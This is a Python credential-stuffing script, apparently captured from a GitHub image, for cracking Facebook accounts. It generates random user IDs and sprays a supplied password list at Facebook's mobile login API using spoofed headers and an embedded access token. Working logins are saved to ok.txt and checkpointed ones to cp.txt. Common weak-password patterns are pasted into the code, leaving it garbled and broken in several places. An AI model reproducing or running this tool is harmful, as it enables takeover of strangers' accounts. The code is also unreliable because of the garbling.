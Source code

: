 
W = '\033[97;1m' 
R = '\033[91;1m' 
G = '\033[92;1m' 
Y = '\033[93;1m' 
B = '\033[94;1m'
P = '\033[95;1m'
C = '\033[96;1m'
N = '\x1b[0m'



import os
try:
	import requests
except ImportError:
	os.system("pip install requests")

try:
	import concurrent.futures
except ImportError:
	os.system("pip install futures")

import os
import sys
import time
import requests
import random
import platform
import base64
import subprocess
from concurrent.futures import ThreadPoolExecutor

logo = """

██╗     ██╗███╗   ███╗ ██████╗ ███╗   ██╗   ████████╗ ██████╗  ██████╗ ██╗     ███████╗    
██║     ██║████╗ ████║██╔═══██╗████╗  ██║   ╚══██╔══╝██╔═══██╗██╔═══██╗██║     ██╔════╝    
██║     ██║██╔████╔██║██║   ██║██╔██╗ ██║█████╗██║   ██║   ██║██║   ██║██║     ███████╗    
██║     ██║██║╚██╔╝██║██║   ██║██║╚██╗██║╚════╝██║   ██║   ██║██║   ██║██║     ╚════██║    
███████╗██║██║ ╚═╝ ██║╚██████╔╝██║ ╚████║      ██║   ╚██████╔╝╚██████╔╝███████╗███████║    
╚══════╝╚═╝╚═╝     ╚═╝ ╚═════╝ ╚═╝  ╚═══╝      ╚═╝    ╚═════╝  ╚═════╝ ╚══════╝╚══════╝    
                                                                                           
 
   """


class Main:
	def __init__(self):
		self.id = []
		self.ok = []
		self.cp = []
		self.loop = 0
		os.system("clear")
		print(logo)
		print(' \033[1;95mDont Decode My Tools \033[0m')
		print(' \033[1;95mThis Tool Clone Old Account \033[0m')
		print("")
		print("%s [%s1%s]%s FILE CRACK FB ID 2008-11 %s[Just-Now-Open]"%(P,G,R,Y,B))
		print(" \033[1;96m[2] EXIT")
		__JISAN = input("\n\033[0;91m>>> \033[0;92m CHOOSE \033[0m: ")
		if __JISAN in ["", " "]:
			Main()
		elif __JISAN in ["1", "01"]:
			self.fbtua()
		else:
			exit()

	def fbtua(self):
		x = 111111111
		xx = 999999999
		idx = "100000" 
		os.system('clear');print(logo)
		limit = int(input(" \033[0;95m[+]\033[0;93m TOTAL IDS TO CRACK LIMIT 5000: "))
		try:
			for n in range(limit):
				_ = random.randint(x,xx)
				__ = idx
				self.id.append(__+str(_))
			
			print("\033[0;93m [+] TOTAL ID -> \033[0;91m%s\033[0;97m"%(len(self.id))) 
			with ThreadPoolExecutor(max_workers=30) as coeg:
				print("\n%s [!] USE %s, %s(COMMA)%s FOR SEPARATOR "%(G,Y,B,Y))
				print("%s EXAMPLE : %s786786,123456,1234567,123456789"%(G,Y))
				listpass = input("%s [?] ENTER PASSWORD :%s "%(G,Y))
				if len(listpass)<=5:
					exit("\n%s [!] PASSWORD MINIMUM 6 CHARACTERS"%(first
first1
first12
first123
first12345
last
last12
first@
first@#
first@@@
last@
@first
@first@
first first
first last
first last
first@123
first1122
@@@###
First last
firstlast12))
				print("%s [*] CRACK WITH PASSWORD -> [\033[0;91m%s\033[0;93m]"%(G,first last
first12
first123
first1234
first12345
first123456
first143
first1122
first111
first@
first@@
first@@@
first@@@@
first@@@@@
first@#
57273200
i love you
bangladesh
first 
first1@2
First1@2#
First@#12))
				print("\n%s [+] OK RESULTS SAVED IN -> ok.txt"%(Y))
				print("%s [+] CP RESULTS SAVED IN -> cp.txt"%(G))
				print("%s [!] IF NO RESULT TURN ON AIRPLANE MODE 10 SECONDS\x1b[0m\n"%(P))
				for user in self.id:
					coeg.submit(self.api, user, listpass.split(","))
			exit("\n\n[>>] CRACK COMPLETE...")
		except Exception as e:exit(str(e))

	def api(self, uid, pwx):
		ua = file.cloning([
			"Dalvik/1.6.0 (Linux; U; Android 4.4.2; NX55 Build/KOT5506) [FBAN/FB4A;FBAV/106.0.0.26.68;FBBV/45904160;FBDM/{density=3.0,width=1080,height=1920};FBLC/it_IT;FBRV/45904160;FBCR/PosteMobile;FBMF/asus;FBBD/asus;FBPN/com.facebook.katana;FBDV/ASUS_Z007;FBSV/5.0;FBOP/1;FBCA/x86:armeabi-v7a;]", 
			"Mozilla/5.0 (Linux; Android 10; Mi 9T Pro Build/QKQ1.190825.002; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/88.0.4324.181 Mobile Safari/537.36[FBAN/EMA;FBLC/it_IT;FBAV/239.0.0.10.109;]"
		])
		sys.stdout.write(
			"\r\r %s[JISAN] : %s/%s -> \033[0;97m [OK:%s ] \033[0;97m[CP:%s ]"%(W,self.loop, len(self.id), len(self.ok), len(self.cp))
		); sys.stdout.flush()
		for pw in pwx:
			pw = pw.lower()
			ses = requests.Session()
			headers = {
				"x-fb-connection-bandwidth": str(random.randint(20000000.0, 30000000.0)), 
				"x-fb-sim-hni": str(random.randint(20000, 40000)), 
				"x-fb-net-hni": str(random.randint(20000, 40000)), 
				"x-fb-connection-quality": "EXCELLENT",
				"x-fb-connection-type": "cell.CTRadioAccessTechnologyHSDPA",
				"user-agent": ua, 
				"content-type": "application/x-www-form-urlencoded", 
				"x-fb-http-engine": "Liger"
			}
			response = ses.get("https://b-api.facebook.com/method/auth.login?format=json&email="+str(uid)+"&password="+str(pw)+"&credentials_type=device_based_login_password&generate_session_cookies=1&error_detail_type=button_with_disabled&source=device_based_login&meta_inf_fbmeta=%20&currently_logged_in_userid=0&method=GET&locale=en_US&client_country_code=US&fb_api_caller_class=com.facebook.fos.headersv2.fb4aorca.HeadersV2ConfigFetchRequestHandler&access_token=350685531728|62f8ce9f74b12f84c123cc23437a4a32&fb_api_req_friendly_name=authenticate&cpl=true", headers=headers) 
			if "session_key" in response.text and "EAAA" in response.text:
				print("\r  \033[0;92m   [LIMON-OK] %s | %s\033[0;97m         "%(uid, pw))
				self.ok.append("%s|%s"%(uid, pw))
				open("ok.txt","a").write("  * --> %s|%s\n"%(uid, pw))
				break
			elif "www.facebook.com" in response.json()["error_msg"]:
				print("\r  \033[0;91m   [LIMON-CP] %s | %s\033[0;97m         "%(uid, pw))
				self.cp.append("%s|%s"%(uid, pw))
				open("cp.txt","a").write("  * --> %s|%s\n"%(uid, pw))
				break
			else:
				continue

		self.loop +=1

try:Main()
except Exception as e:exit(str(e))

